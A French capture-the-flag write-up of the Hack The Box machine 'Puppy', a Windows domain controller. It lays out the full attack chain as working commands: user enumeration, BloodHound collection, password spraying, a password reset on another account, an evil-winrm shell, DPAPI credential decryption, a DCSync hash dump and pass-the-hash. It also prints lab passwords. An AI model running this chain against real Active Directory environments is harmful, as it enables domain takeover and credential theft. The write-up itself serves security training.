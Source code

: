 Tasks : 
- Énumération des utilisateurs et services AD.
- Exploitation des partages et fichiers sensibles.
- Escalation des privilèges via abus de droits Active Directory .
- Récupération des identifiants administrateur via une attaque **DCSync**.
# Enumeration 
# Nmap 

Nous avons débuté l'engagement par une analyse de port à l'aide de l'outil Nmap afin d'identifier les services exposés sur la cible.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-18 19:47:14Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
53378/tcp open  msrpc         Microsoft Windows RPC
53387/tcp open  msrpc         Microsoft Windows RPC
53402/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-18T19:49:03
|_  start_date: N/A
|_clock-skew: 6h59m56s
```

Des identifiants ont été fournis dès le départ pour initier l’accès à la machine :
- **Utilisateur :** `levi.james`
- **Mot de passe :** `KingofAkron2025!`

Ces identifiants ont permis de réaliser des actions d’énumération sur l’environnement Active Directory.

![[Pasted image 20250518150908.png]]

Nous avons ajouté ces informations :
Dans `/etc/hosts` pour la résolution locale.
### Enumeration des utilisateurs 

```
nxc smb PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt
```

![[Pasted image 20250518151924.png]]

### enumeration des utilisateurs 

```bash
crackmapexec smb 10.10.X.X -u levi.james -p 'KingofAkron2025!' --shares
```

![[Pasted image 20250521121640.png]]

Nous avons trouvé un partage nommé **DEV**.

![[Pasted image 20250521122929.png]]

## Analyse de l’environnement avec BloodHound

Grâce à **bloodhound-python**, une collecte a été effectuée pour cartographier les relations et privilèges dans l’Active Directory.

```
bloodhound-python -dc DC.PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' -d PUPPY.HTB -c All -o bloodhound_results.json -ns 10.10.11.70
```

![[Pasted image 20250521144358.png]]



Analyse des droits :

- `levi.james` est membre du groupe **Developers** avec un droit **GenericWrite** sur un autre compte, mais non exploitable immédiatement.


À partir du dump, nous avons généré un fichier `passwords_only.txt`, puis effectué un **password spraying** :

![[Pasted image 20250518154138.png]]

edwards:Antman2025!

Analyse avec BloodHound : l’utilisateur `ant.edwards` a un droit d’écriture sur `adam.d.silver`.

Nous utilisons `rpcclient` ou `bloodyAD` pour changer le mot de passe de la cible.

```
bloodyAD/bloodyAD.py --host 10.10.X.X -d PUPPY.HTB -u Ant.Edwards -p 'Antman2025!' get writable --detail | grep -E "distinguishedName: CN=.*DC=PUPPY,DC=HTB" -A 10
```

![[Pasted image 20250521141240.png]]
  
Nous changeons le mot de passe avec rpcclient

```bash
rpcclient -U 'puppy.htb\Ant.Edwards%Antman2025!' 10.10.X.X
```


![[Pasted image 20250521141542.png]]

![[Pasted image 20250521141843.png]]


![[Pasted image 20250521142830.png]]


Avec le mot de passe modifié, nous utilisons **WinRM** pour obtenir un shell distant :

```bash
evil-winrm -i 10.10.X.X -u adam.d.silver -p 'NewPass123!'
```


> [!Important]
> Si vous avez désactivé l'utilisateur, saisissez-le dans le champ .ldif
>  dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
> changetype: modify
> replace: userAccountControl
> userAccountControl: 512
> ldapmodify -x -H ldap://$ip -D "ant.edwards@puppy.htb" -w 'Antman2025!' -f modify.ldif

## Escalade de privilèges (Privilege Escalation)

### Enumeration locale avec Evil-WinRM

Recherche de fichiers sensibles dans le répertoire `Backups` :
Fichier trouvé : `site-backup-2024-12-30.zip`

Extraction d’un fichier d’authentification :  `nms-auth-config.xml.bak`

Informations d’identification récupérées :

**Utilisateur :** `steph.cooper`
**Mot de passe :** `ChefSteph2025!`

Connexion WinRM réussie avec ce compte.

---

### 4.2 Extraction de données DPAPI

Recherche de fichiers sensibles :
- Fichier **masterkey**
- Fichier **credential blob**
Ces fichiers sont copiés via un serveur **SMB** temporaire.

---

### 4.3 Déchiffrement DPAPI

Utilisation d’un script DPAPI pour décrypter les identifiants :

bash
CopierModifier

`dpapi.py masterkey blob`

Identifiants extraits :

**Utilisateur :** `steph.cooper_adm`
**Mot de passe :** `FivethChipOnItsWay2025!`

---

### 4.4 DCSync – Dump des hashes AD

L’utilisateur `steph.cooper_adm` dispose du droit **DCSync**. Nous utilisons `secretsdump.py` pour exfiltrer le hash de l’administrateur :

bash

CopierModifier

```bash
secretsdump.py 'PUPPY.HTB/steph.cooper_adm:FivethChipOnItsWay2025!@DC.PUPPY.HTB'
```

📸 **[Insérer capture hash admin]**

Connexion WinRM avec le hash de l’administrateur :

bash

CopierModifier

`evil-winrm -i 10.10.X.X -u administrator -H <admin_hash>`

bb0edc15e49ceb4120c7bd7e6e65d75b
